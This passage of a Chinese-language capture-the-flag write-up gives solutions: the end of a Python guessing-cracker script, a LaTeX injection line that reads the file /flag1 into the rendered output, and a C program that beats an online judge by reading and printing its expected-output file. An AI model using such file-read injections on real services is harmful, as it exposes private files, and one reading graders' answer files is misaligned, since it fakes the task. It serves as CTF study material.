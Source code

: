 ```python
        tmp = num
        guess(str(num/1000000))
        less, more, num = check()
        # print(less, more, num)
    return times, tmp

if __name__ == '__main__':
    l = [500000]
    while True:
        # n = 500000*(len(l)+1) - sum(l)
        # n = min(n, 1000000)
        # n = max(n, 0)
        n = 1000000 - sum(l)//len(l)
        times, num = crack(n)
        l.append(int(num))
        print(times, n, num, sum(l)//len(l))
        if times == 1:
            break
    print('done')
```

## LaTeX机器人

Level1 我的解法：

```tex
\newread\myread \openin\myread=/flag1 \read\myread to \fileline \fileline{}
```

Level2 打不通，但找到一个可以取消所有转义的函数 ~~（但我忘了是什么）~~。

## 安全的在线测评

我 Level1 的解法，但似乎预期是用编译器读？

```c
#include <stdio.h>

int main() {
    // read 2 lines from file
    char buf[400];
    scanf("%s", buf);

    FILE *fp = fopen("./data/static.out", "r");
    fgets(buf, 400, fp);
    printf("%s", buf);
    fgets(buf, 400, fp);
    printf("%s", buf);
    fclose(fp);
    return 0;
}
```
